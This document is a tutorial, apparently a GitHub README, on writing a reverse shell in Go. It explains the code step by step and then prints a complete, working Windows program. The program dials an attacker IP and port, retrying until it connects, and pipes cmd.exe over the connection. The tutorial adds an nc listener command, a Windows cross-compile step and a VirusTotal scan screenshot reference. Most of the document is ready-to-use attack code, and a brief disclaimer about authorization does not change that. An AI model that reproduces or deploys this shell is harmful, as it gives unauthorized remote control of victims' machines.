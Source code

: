 # Building a Reverse Shell in Go

In this tutorial, we'll explore how to create a basic reverse shell in Go. A reverse shell is a type of shell where the target machine communicates back to the attacking machine. This can be useful for remote administration or accessing a system that is behind a firewall.

## Understanding the Code

Let's break down the code step by step:

 ### Package and Imports

```go
package main

import (
    "fmt"
    "net"
    "os"
    "os/exec"
    "time"
)
```

- `package main`: Indicates that this Go file is the main package, which can be executed.
- `import`: Importing necessary packages for our program. We import `fmt` for formatting, `net` for networking operations, `os` for operating system functionalities, `os/exec` for executing external commands, and `time` for time-related operations.

### Variables

```go
var (
    a1 = "192.168.23.129"
    a2 = 4444
)
```

- `a1` and `a2` are variables storing the IP address and port number, respectively, of the attacker's machine.

### Function `e1()`

```go
func e1() {
    if a1 == "0.0.0.0" || a2 == 0 {
        fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
        os.Exit(1)
    }
}
```

- `e1()` checks if the IP address (`a1`) or port number (`a2`) is not defined and exits the program with an error message if they are not defined.

### Function `e2()`

```go
func e2() net.Conn {
    var c net.Conn
    var err error
    for {
        c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
        if err == nil {
            break
        }
        time.Sleep(5 * time.Second)
    }
    return c
}
```

- `e2()` attempts to establish a TCP connection to the attacker's machine (`a1:a2`). It retries every 5 seconds until a successful connection is made and returns the connection object `c`.

### Function `e3()`

```go
func e3(c net.Conn) {
    cmd := exec.Command("cmd")
    cmd.Stdin = c
    cmd.Stdout = c
    cmd.Stderr = c
    err := cmd.Start()
    if err != nil {
        fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
        os.Exit(1)
    }
    cmd.Wait()
}
```

- `e3()` executes the `cmd` command on the target machine, redirecting its standard input, output, and error to the network connection `c`.

### Main Function

```go
func main() {
    e1()
    c := e2()
    e3(c)
}
```

- The `main()` function calls `e1()` to check if the IP address and port are defined, then establishes a connection using `e2()` and executes the `cmd` command using `e3()`.

### Running the Code

To run this code, you need to replace `a1` and `a2` with your own IP address and port number. Compile the code using `go build` and run the resulting executable on the target machine.

In your attacker machine, you can listen for incoming connections using tools like `nc` or `netcat`:

```bash
nc -nlvp 4444
```

Once the connection is established, you should see a command prompt from the target machine on your attacker machine, allowing you to execute commands remotely.

This is a basic example of a reverse shell in Go. Remember, using such techniques for unauthorized access is illegal and unethical. Always ensure you have proper authorization before attempting any remote administration.

```go
package main

import (
	"fmt"
	"net"
	"os"
	"os/exec"
	"time"
)

var (
	a1 = "192.168.23.129"
	a2 = 4444
)

func e1() {
	if a1 == "0.0.0.0" || a2 == 0 {
		fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
		os.Exit(1)
	}
}

func e2() net.Conn {
	var c net.Conn
	var err error
	for {
		c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
		if err == nil {
			break
		}
		time.Sleep(5 * time.Second)
	}
	return c
}

func e3(c net.Conn) {
	cmd := exec.Command("cmd")
	cmd.Stdin = c
	cmd.Stdout = c
	cmd.Stderr = c
	err := cmd.Start()
	if err != nil {
		fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
		os.Exit(1)
	}
	cmd.Wait()
}

func main() {
	e1()
	c := e2()
	e3(c)
}


```
## Compilation
```sh
GOOS=windows GOARCH=amd64 go build -o crust.exe curb.go
```


    ### Virustotal Scan
    ![alt text](go-revshell.png)
    
    ### session

    ![alt text](go-revshell-2.png)


#peacout


